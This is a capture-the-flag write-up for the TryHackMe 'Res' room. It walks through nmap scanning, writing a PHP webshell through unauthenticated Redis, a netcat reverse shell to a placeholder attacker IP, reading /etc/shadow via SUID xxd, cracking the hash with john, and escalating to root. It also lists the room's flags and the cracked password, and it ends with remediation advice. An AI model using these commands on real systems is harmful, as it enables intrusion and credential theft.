 # Res Room (2025) — Write-up

**Author:** Daniel Demian  
**Room:** Res (TryHackMe)  
**Difficulty:** Easy 🔰  
**Time to complete:** ~30 minutes

---

## Summary
A compact, beginner-friendly box demonstrating a high-yield workflow: service enumeration → Redis RCE (no auth) → user compromise → SUID-based privilege escalation using `xxd` to read `/etc/shadow`, crack the hash, and escalate to root.

---

## TL;DR
- **Initial access:** Redis RCE (write a PHP webshell into `/var/www/html`)  
- **User flag:** `thm{red1s_rce_w1thout_credent1als}`  
- **Escalation:** SUID `xxd` → read `/etc/shadow` → crack hash → `su vianka` → `sudo su -`  
- **Root flag:** `thm{xxd_pr1v_escalat1on}`

---

## Recon & enumeration

**Command used**
```bash
nmap -p- -sC -sV -T4 {TARGET_IP} -oA scans/full_tcp
```

**Representative Nmap output**
```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
6379/tcp open  redis   Redis key-value store 6.0.7
```

**Quick answers**
- Open ports: **2**  
- DBMS: **Redis**  
- Redis port: **6379**  
- Redis version: **6.0.7**

---

## Initial access — Redis RCE (webshell)
Install `redis-tools` on your attacker host and connect:
```bash
redis-cli -h {TARGET_IP}
```

Inside Redis:
```text
flushall
set pwn "<?php system($_REQUEST['cmd']); ?>"
config set dbfilename webshell.php
config set dir /var/www/html
save
```

Trigger the webshell to get a reverse shell:
```bash
# on attacker
nc -nlvp 1234

# in browser
http://{TARGET_IP}/webshell.php?cmd=nc%20{ATTACKER_IP}%201234%20-e%20/bin/bash
```

Upgrade the shell:
```bash
python3 -c 'import pty, os; pty.spawn("/bin/bash")'
# on local: stty raw -echo; fg
export TERM=xterm-256color
reset
```

User flag:
```bash
cat /home/vianka/user.txt
# thm{red1s_rce_w1thout_credent1als}
```

---

## Post-exploitation & local enumeration
Useful commands:
```bash
id; uname -a; cat /etc/os-release
find / -perm -4000 -type f 2>/dev/null
ls -la /home; ls -la /home/vianka
grep -R --line-number -i "password" /home /etc 2>/dev/null
```

Notable finding: `/usr/bin/xxd` had the SUID bit set — unusual for that utility.

---

## Privilege escalation — `xxd` to read `/etc/shadow`
Dump and reconstruct `/etc/shadow`:
```bash
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r > /tmp/shadow
cat /tmp/shadow | sed -n '1,10p'
```

Identify hash type (prefix):  
- `$6$` = sha512crypt
- `$5$` = sha256crypt
- `$1$` = md5crypt
- `$2y$`/`$2a$` = bcrypt

Transfer files to attacker (example):
```bash
cd /tmp
python3 -m http.server 8000
# on attacker:
wget http://{TARGET_IP}:8000/shadow
wget http://{TARGET_IP}:8000/passwd
```

Merge and crack:
```bash
unshadow passwd shadow > hashes
john --wordlist=/usr/share/wordlists/rockyou.txt --rules hashes
# cracked: beautiful1 (vianka)
```

---

## Final escalation & root
```bash
su - vianka
# password: beautiful1
sudo -l
sudo su -
cat /root/root.txt
# thm{xxd_pr1v_escalat1on}
```

---

## Final thoughts & remediation
- **Don’t expose** management services (Redis) to untrusted networks — require authentication and network ACLs.  
- **Audit SUID binaries** and remove SUID from non-essential tools (`chmod u-s /usr/bin/xxd`).  
- **Enforce strong passwords** and MFA; salted hashes with weak passwords are still crackable.  
- **Practice the basics**: fast nmap + service-specific enumeration + GTFOBins + John/hashcat is a very effective workflow for beginner boxes.

---

## All answers (quick list)
- Open ports: **2**  
- DBMS: **Redis**  
- Redis port: **6379**  
- Redis version: **6.0.7**  
- User flag: `thm{red1s_rce_w1thout_credent1als}`  
- Local user password: `beautiful1`  
- Root flag: `thm{xxd_pr1v_escalat1on}`

---
